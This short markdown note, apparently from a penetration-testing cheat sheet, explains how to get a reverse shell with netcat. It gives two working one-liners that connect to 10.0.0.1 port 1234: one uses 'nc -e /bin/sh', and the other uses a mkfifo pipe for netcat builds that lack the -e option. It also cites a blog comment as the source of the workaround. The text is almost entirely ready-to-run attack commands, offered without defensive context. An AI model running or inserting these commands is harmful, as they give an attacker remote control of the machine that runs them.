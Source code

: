 ```yaml
---
category: Uncategorized
tags: []
---
```

### Reverse shell in Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

``nc -e /bin/sh 10.0.0.1 1234``

If you have the wrong version of netcat installed, [Jeff Price points out here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498) that you might still be able to get your reverse shell back like this:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f